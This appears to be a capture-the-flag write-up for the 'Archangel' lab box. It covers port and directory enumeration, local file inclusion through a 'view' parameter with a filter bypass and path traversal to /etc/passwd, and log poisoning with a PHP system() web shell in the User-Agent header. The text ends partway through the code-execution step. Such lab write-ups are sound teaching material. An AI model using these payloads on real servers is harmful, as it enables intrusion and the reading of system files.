


# Archangel

## Enumeration

### NMAP

The first step to understanding what we are attacking is to determine what ports the target has open and see what service we can find.  

Command:

```bash
nmap -A -p- -oN nmap/all_port_aggressive $TARGET
```

Results:

```bash
Nmap scan report for 10.10.227.48
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   18.25 ms 10.6.0.1
2   ... 3
4   82.34 ms 10.10.227.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.32 seconds
```

### Website (Manual)

Not everything about enumeration can be automated, so we should look at the site being hosted by the target and see if we can discover any more information. One thing that stands out almost immediately is the domain mentioned in the `Send us a mail:` prompt at the top of the page. We can add this to `/etc/hosts` to see if there is virtual hosting being done on the target. If there is, then adding this to the `/etc/hosts` file and navigating to `http://mafialive.thm` will bring us to a different site.


When we navigate to `mafialive.thm` we are greeted with a basic HTML page that tells us it is under development and gives us a flag.


Now we can begin to enumerate this site for hidden directories.

Command:

```bash
gobuster dir -u http://mafialive.thm -w <wordlist> -t 50 -x php -o mafialive_main
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/16 20:05:53 Starting gobuster in directory enumeration mode
===============================================================
/test.php             (Status: 200) [Size: 286]
/server-status        (Status: 403) [Size: 278]
                                               
===============================================================
2022/12/16 20:06:52 Finished
===============================================================
```

## Local File Inclusion (LFI)

We have discovered a `test.php` page and nothing else. Taking a look at this page, there is a simple button on it that displays a phrase when we click it. Looking at the URL,  however, discloses a parameter `view` whose value is a filepath.



Let's see if we can get the source for the `test.php` page by replacing `mrrobot.php` with `test.php`. A basic replace didn't work, so we can try using a PHP filter to convert it to base64 and smuggle it out. By replacing `/var/www/html/development_testing/mrrobot.php` with `php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php` we can get the base64 encoded source code returned to us. 

Source:

```php
<?php
//FLAG: <REDACTED FOR WRITEUP>
function containsStr($str, $substr) {
	return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
	if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
		include $_GET['view'];
	}else{
		echo 'Sorry, Thats not allowed';
	}
}
?>
```

The part we are intersted in is the `<?php ... ?>` piece where the hidden PHP code is written. This shows us a few interesting things we can use to our advantage: 1) `/var/www/html/development_testing` must be in the `view` parameter and 2) the path cannot contain `../..`. The simple filter imposed by the code is easy to get around by adding an additional `/` to `../..`, turning it into `..//..`. Next we can perform a path traversal to any location the user running the website has access to by walking up the directory tree starting at `/var/www/html/development_testing` using `..//..`. We can test this to make sure our theory is correct by targeting `?view=/var/www/html/development_testing/..//..//..//..//..//..//../etc/passwd`.



When we attempt the LFI attack, we successfully get back the `/etc/passwd` file. This confirms our theory. 


## Remote Code Execution (RCE)

Reading file content is good, but executing arbitraty commands is better. How, then, can we achieve our objective? The answer: `Log Poisoning`. Since we can read local files, we can read the server's log file. We also know that this site is written in PHP, meaning we may be able to inject a command into the log and have the server execute it for us. Webserver logs generally log the IP address of the requesting machine, the path, response code, user-agent, and time. Out of these, we have control over the path and user-agent. We are using the path to read files, meaning the user-agent is what we will poison the log with. 

By injecting PHP into the `User-Agent` header, we can add a URL parameter to the site. This URL parameter is where we will add the command we want to run. Let's assume we want to add a new parameter `c` using log poisoning via the `User-Agent`.  To achieve this, we will replace the existing `User-Agent` with the following:

```php
<?php system($_GET['c']); ?>
```

When the server gets a request with the above payload as the `User-Agent`, it will evaluate it and execute the PHP code. After this parameter is injected, we can make a request to the server that looks like:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/../../../../../var/log/apache2/access.log&c=cat /etc/passwd
```

Now when you go back and check the log, the contents of `/etc/passwd` should be in the location of that request's `User-Agent`.